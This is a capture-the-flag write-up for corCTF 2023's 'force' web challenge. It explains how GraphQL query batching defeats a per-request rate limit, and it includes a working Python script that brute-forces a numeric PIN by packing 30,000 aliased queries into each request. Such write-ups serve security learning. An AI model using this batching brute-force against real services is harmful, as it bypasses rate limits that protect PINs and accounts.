


# corCTF 2023

## Web/force

## Challenge Overview

`Description`: Unbreakable vault door!



We have been given a website with a query in it.

So first let's see the source code given.

```js
import fastify from 'fastify';
import mercurius from 'mercurius';
import { randomInt } from 'crypto';
import { readFile } from 'fs/promises';

const app = fastify({
    logger: true
});
const index = await readFile('./index.html', 'utf-8');

const secret = randomInt(0, 10 ** 5);

let requests = 10;

setInterval(() => requests = 10, 60000);

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin !== secret) {
                    return 'Wrong!';
                }
                return process.env.FLAG || 'corctf{REDACTED}';
            }
        }
    },
    routes: false
});

app.get('/', (req, res) => {
    return res.header('Content-Type', 'text/html').send(index);
});

app.post('/', async (req, res) => {
    if (requests <= 0) {
        return res.send('no u');
    }
    requests--;
    return res.graphql(req.body);
});

app.listen({ host: '0.0.0.0', port: 4020 });
```
So it generates a random integer named `secret` from 0 to 100000 and if we send the query in the given format with pin matching the secret it will give us the flag but the problem is there are 100000 possibilities and we can't bruteforce also because we can send only 10 request per 60 seconds.

## Vulnerability Identification

So we have to find a way in which we can send different pins multiple times in the 1 post request.

There is a technique named `graphql-batching-attack` in which we can send multiple query in 1 post request as given below in image.



[Reference](https://lab.wallarm.com/graphql-batching-attack/)


## Exploiting the Vulnerability

So to exploit it we will be sending the query with 30000 flags each time with the below given python sctipt.

```python
import requests
import re

headers = {
    'Content-Type': 'text/plain;charset=UTF-8',
}
url = 'https://web-force-force-a2e5f8d6b3c3a1f9.be.ax/'

for i in range(4):
    query = ''
    print(f'trying from {i * 30000} to {(i + 1) * 30000 - 1}')  # Adjusted the loop range
    
    for x in range(i * 30000, (i + 1) * 30000):
        query += f'flag{x} : flag(pin: {x})\n'
    response = requests.post(url, headers=headers, data=f'{{{query}}}')
    
    if 'corctf{' in response.text:
        flag = re.search(r'corctf\{.*?\}', response.text)
        if flag:
            print(f"Found flag on : {flag.group(0)}") 
            break

```

## Obtaining the Flag

Hence after running the script we get the flag

 

Flag: **corctf{S&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;T&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;O&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;N&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;K&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;S}**

Thank You
